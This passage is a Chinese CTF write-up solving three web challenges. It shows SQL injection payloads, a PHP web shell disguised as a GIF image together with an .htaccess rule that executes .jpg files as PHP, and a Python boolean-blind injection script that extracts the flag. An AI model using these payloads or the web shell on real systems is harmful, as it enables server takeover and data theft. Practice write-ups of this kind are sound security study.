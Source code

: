 在后续测试中发现，如果在提交的数字后加入分号，则回显的数据为提交的数字，猜测查询语句的前半段为
```html
select $_POST['query'] ...
```
验证
```html
query=13;select 4
```
>Array ( [0] => 13 ) Array ( [0] => 1 )

猜测正确，那这不是白给吗，
```html
query=*,1
```
得到flag

# \<MRCTF2020>你传你——呢
简单的文件上传，上传测试，".jpg"和".htaccess" 可以上传，同时还会给出路径
分别上传然后蚁剑连接

a.jpg
```php
GIF8a
<script language='php'>@eval($_POST['door']);</script>
```

.htaccess
```php
AddType application/x-httpd-php .jpg 
```

# <CISCN2019 华北赛区 Day2 Web1>Hack World
打开题目，简单测试发现是数字型注入且大部分关键字都被过滤，尝试布尔盲注。
```html
id=0^((substr((select(flag)from(flag)),1,1))='f')
```
回显id=1时的界面
说明注入成功，用脚本即可跑出flag
```python
import requests

url = "http://88cefe6c-611d-488c-89c1-a6ae8a08a682.node4.buuoj.cn:81/index.php"
dat = { "id" : ""}
a=[">"]

for i in range(1,60):
    print(f"{i}> ",end="")
    for u in "}-{qazxswedcvfrtgbnhyujmkiolp1234567890":
        dat['id'] = "0^((substr((select(flag)from(flag)),"+str(i)+",1))='"+u+"')"
        res = requests.post(url, data=dat, timeout=100)
        if "Hello" in res.text:
            print(u)
            a.append(u)
            if u == "}":
                for w in a:
                    print(w,end="")
  ```
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/c6f3870ab3824225b6f3cd34934f94e7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_17,color_FFFFFF,t_70,g_se,x_16#pic_center)
